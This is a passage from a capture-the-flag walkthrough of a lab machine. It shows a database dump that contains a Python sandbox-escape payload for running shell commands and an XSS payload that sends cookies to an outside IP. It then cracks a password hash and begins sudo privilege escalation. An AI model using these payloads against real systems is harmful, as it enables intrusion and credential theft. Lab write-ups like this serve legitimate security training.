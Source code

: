 ```
INSERT INTO user VALUES(2,'app','a97588c0e2fa3a024876339e27aeb42e');
INSERT INTO user VALUES(3,'gdbxcvgg','5f4dcc3b5aa765d61d8327deb882cf99');
CREATE TABLE code_snippet (
        id INTEGER NOT NULL, 
        user_id INTEGER NOT NULL, 
        code TEXT NOT NULL, 
        PRIMARY KEY (id), 
        FOREIGN KEY(user_id) REFERENCES user (id)
);
INSERT INTO code_snippet VALUES(1,6,replace('let cmd = "ls /"\nlet hacked, bymarve, n11\nlet getattr, obj\n\nhacked = Object.getOwnPropertyNames({})\nbymarve = hacked.__getattribute__\nn11 = bymarve("__getattribute__")\nobj = n11("__class__").__base__\ngetattr = obj.__getattribute__\n\nfunction findpopen(o) {\n    let result;\n    for(let i in o.__subclasses__()) {\n        let item = o.__subclasses__()[i]\n        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {\n            return item\n        }\n        if(item.__name__ != "type" && (result = findpopen(item))) {\n            return result\n        }\n    }\n}\n\nn11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()\nconsole.log(n11)\nn11','\n',char(10)));
INSERT INTO code_snippet VALUES(2,7,'<body onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//http://10.10.11.82:8000:4848/?".concat(document.cookie)},1010)></body>');
COMMIT;
```

We use (crackstation)[https://crackstation.net/] to crack the password hash for user `marco` and obtain the password `sweetangelbabylove`.

## Root Exploitation

We check if we can use the `sudo` command:
```bash
sudo -l
```
```
Matching Defaults entries for marco on codetwo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User marco may run the following commands on codetwo:
    (ALL : ALL) NOPASSWD: /usr/local/bin/npbackup-cli
```

We can check what does `/usr/local/bin/npbackup-cli` by looking at its source code:
```bash
cat /usr/local/bin/npbackup-cli
```
```python
#!/usr/bin/python3
# -*- coding: utf-8 -*-
import re
import sys
from npbackup.__main__ import main
if __name__ == '__main__':
    # Block restricted flag
    if '--external-backend-binary' in sys.argv:
        print("Error: '--external-backend-binary' flag is restricted for use.")
        sys.exit(1)

    sys.argv[0] = re.sub(r'(-script\.pyw|\.exe)?$', '', sys.argv[0])
    sys.exit(main())
```
